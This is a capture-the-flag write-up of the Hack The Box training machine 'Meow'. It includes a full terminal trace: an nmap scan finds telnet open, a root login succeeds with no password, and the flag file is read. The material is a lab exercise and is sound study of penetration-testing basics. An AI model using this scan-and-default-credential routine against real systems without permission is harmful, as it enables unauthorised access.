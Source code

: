 ## Box: [Meow] — Started: 25-09-27

**IP/Host:** `HTB attackbox`  |  **Status:** `Owned: 25-09-27`

### TL;DR

Initial: `nmap -sV IPADDR`. Flag Cap: [`telnet IPADDR`].

### Key Steps

1. *Validation*: HTB ctf
2. *Scanning/Recon*: `nmap -sV IPADDR`
3. *Exploits/Findings*: `cat flag.txt`
4. *PrivEsc/Persistence*: N/A
5. *Proof — path to flags/screenshot of boxpwn*: Cat'd flag in home folder
![[Pasted image 20251005004421.png]]

### Quick Notes
- *Recon*: 
    nmap -sV revealed an open Telnet port on 23. 
- *Access*: 
    - Attempting a default login of "root" 
- *Stuck*: 
    - Mostly instructional, wasn't sure what the lesson plan wanted me to answer for `What service do we use to form our VPN connection into HTB labs?` (OpenVPN was the answer) because I was technically not using OpenVPN personally (I was directly, but out of sight out of mind). So I got started going through the walkthrough until it came to me. While I was waiting for `nmap` to finish.


### Commands

**full trace**:

```shell
┌─[us-starting-point-1-dhcp]─[10.10.14.51]─[htb-mp-954215@htb-w2ldmkeadm]─[~]
└──╼ [★]$ ping 10.129.14.231
PING 10.129.14.231 (10.129.14.231) 56(84) bytes of data.
64 bytes from 10.129.14.231: icmp_seq=1 ttl=63 time=9.26 ms
64 bytes from 10.129.14.231: icmp_seq=2 ttl=63 time=9.08 ms
64 bytes from 10.129.14.231: icmp_seq=3 ttl=63 time=8.98 ms
^C
--- 10.129.14.231 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 8.975/9.103/9.257/0.116 ms
┌─[us-starting-point-1-dhcp]─[10.10.14.51]─[htb-mp-954215@htb-w2ldmkeadm]─[~]
└──╼ [★]$ nmap -sV 10.129.14.231
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-26 23:29 CDT
Nmap scan report for 10.129.14.231
Host is up (0.011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.59 seconds
┌─[us-starting-point-1-dhcp]─[10.10.14.51]─[htb-mp-954215@htb-w2ldmkeadm]─[~]
└──╼ [★]$ telnet 10.129.14.231
Trying 10.129.14.231...
Connected to 10.129.14.231.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 27 Sep 2025 04:31:22 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.14.231
  IPv6 address for eth0: dead:beef::250:56ff:feb0:8e51

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
[FLAG.TXT]
root@Meow:~# 

```
